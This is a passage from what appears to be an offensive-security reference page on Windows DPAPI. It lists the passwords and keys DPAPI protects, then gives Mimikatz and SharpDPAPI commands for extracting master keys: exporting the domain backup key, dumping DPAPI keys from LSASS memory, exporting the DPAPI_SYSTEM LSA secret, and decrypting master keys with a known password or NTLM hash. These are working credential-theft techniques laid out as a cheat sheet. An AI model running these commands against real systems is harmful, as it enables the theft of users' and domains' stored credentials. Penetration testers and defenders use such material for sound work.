 - Windows creds
- Internet Explorer and Google Chrome's passwords and auto-completion data
- E-mail and internal FTP account passwords for applications like Outlook and Windows Mail
- Passwords for shared folders, resources, wireless networks, and Windows Vault, including encryption keys
- Passwords for remote desktop connections, .NET Passport, and private keys for various encryption and authentication purposes
- Network passwords managed by Credential Manager and personal data in applications using CryptProtectData, such as Skype, MSN messenger, and more
- Encrypted blobs inside the register
- ...

System protected data includes:
- Wifi passwords
- Scheduled task passwords
- ...

### Master key extraction options

- If the user has domain admin privileges, they can access the **domain backup key** to decrypt all user master keys in the domain:

```bash
# Mimikatz
lsadump::backupkeys /system:<DOMAIN CONTROLLER> /export

# SharpDPAPI
SharpDPAPI.exe backupkey [/server:SERVER.domain] [/file:key.pvk]
```

- With local admin privileges, it's possible to **access the LSASS memory** to extract the DPAPI master keys of all the connected users and the SYSTEM key.

```bash
# Mimikatz
mimikatz sekurlsa::dpapi
```

- If the user has local admin privileges, they can access the **DPAPI_SYSTEM LSA secret** to decrypt the machine master keys:

```bash
# Mimikatz
lsadump::secrets /system:DPAPI_SYSTEM /export
```

- If the password or hash NTLM of the user is known, you can **decrypt the master keys of the user directly**:

```bash
# Mimikatz
dpapi::masterkey /in:<C:\PATH\MASTERKEY_LOCATON> /sid:<USER_SID> /password:<USER_PLAINTEXT> /protected

# SharpDPAPI
SharpDPAPI.exe masterkeys /password:PASSWORD
```
